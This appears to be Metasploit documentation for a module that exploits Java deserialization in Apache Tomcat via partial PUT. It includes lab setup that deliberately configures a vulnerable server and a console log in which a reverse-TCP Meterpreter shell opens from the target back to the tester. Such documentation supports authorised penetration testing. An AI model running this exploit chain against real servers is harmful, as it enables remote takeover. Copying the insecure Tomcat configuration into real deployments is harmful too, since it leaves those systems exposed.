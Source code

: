 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in Apache Tomcat's session restoration functionality
that can be exploited with a partial PUT to place an attacker controlled deserialization payload in the work directory.
For the exploit to succeed, writes must be enabled for the default servlet, and `org.apache.catalina.session.PersistentManager` must be
configured to use `org.apache.catalina.session.FileStore`.

## Setup
Download Ubuntu Server 24:
`wget https://mirror.0xem.ma/ubuntu-releases/24.04.2/ubuntu-24.04.2-live-server-amd64.iso`

Install ubuntu on your preferred hypervisor, enable SSH during installation. Reboot once installation is complete and SSH into the target.
Download Tomcat and Java:
```
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
wget https://cdn.azul.com/zulu/bin/zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
```

Extract the JDK Archive to the appropriate directory:
```
tar -xvzf zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
sudo mkdir -p /opt/java
sudo mv zulu8.80.0.17-ca-jdk8.0.422-linux_x64 /opt/java/zulu8
```

Install `unzip` and extract Tomcat:
```
sudo apt install unzip -y
sudo unzip apache-tomcat-9.0.90.zip -d /opt/
```

Set `CATALINA_HOME` and `JAVA_HOME` also update `PATH` by adding the following to `~/.bashrc`:
```
export CATALINA_HOME=/opt/apache-tomcat-9.0.90
export JAVA_HOME=/opt/java/zulu8
export PATH=$JAVA_HOME/bin:$PATH
```

Apply changes:
```
source ~/.bashrc
```

Change Tomcat permissions:
```
sudo chown -R msfuser:msfuser /opt/apache-tomcat-9.0.90
sudo chmod -R +x /opt/apache-tomcat-9.0.90/bin
```

Edit `conf/web.xml` and update the default servlet with the following:
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
          <param-name>readonly</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

Edit `conf/content.xml` and add the following inside the pre-existing `<Context>` tags:
```
    <Manager className="org.apache.catalina.session.PersistentManager">
      <Store className="org.apache.catalina.session.FileStore" />
    </Manager>
```

Create the following directory inside the tomcat root directory:
```
mkdir -p webapps/ROOT/WEB-INF/lib
cd ./webapps/ROOT/WEB-INF/lib
```

Download the following dependencies:
```
wget https://repo1.maven.org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
wget https://repo1.maven.org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

Start the vulnerable Tomcat instance:
```
cd /opt/apache-tomcat-9.0.90/bin
./startup.sh
```

## Options

### GADGET
The desired ysoserial gadget to use to obtain RCE.

## Verification Steps
1. Start msfconsole
2. `use multi/http/tomcat_partial_put_deserialization`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set GADGET <YSOSERIAL_GADGET>`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Apache Tomcat 9.0.90, jdk8.0.422 running on Ubuntu Server 24. Target: Linux Command

```
msf6 > use multi/http/tomcat_partial_put_deserialization
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rhost 192.168.178.93
rhost => 192.168.178.93
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set gadget CommonsCollections6
gadget => CommonsCollections6
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > check
[+] 192.168.178.93:8080 - The target is vulnerable.
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > run
[*] Started reverse TCP handler on 192.168.178.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Utilizing CommonsCollections6 deserialization chain
[*] Uploaded ysoserial payload (qnuBmIxezf.session) via partial PUT
[*] Attempting to deserialize session file..
[+] 500 error response usually indicates success :)
[*] Sending stage (24772 bytes) to 192.168.178.93
[*] Meterpreter session 1 opened (192.168.178.103:4444 -> 192.168.178.93:40696) at 2025-04-02 09:59:48 +0100
```
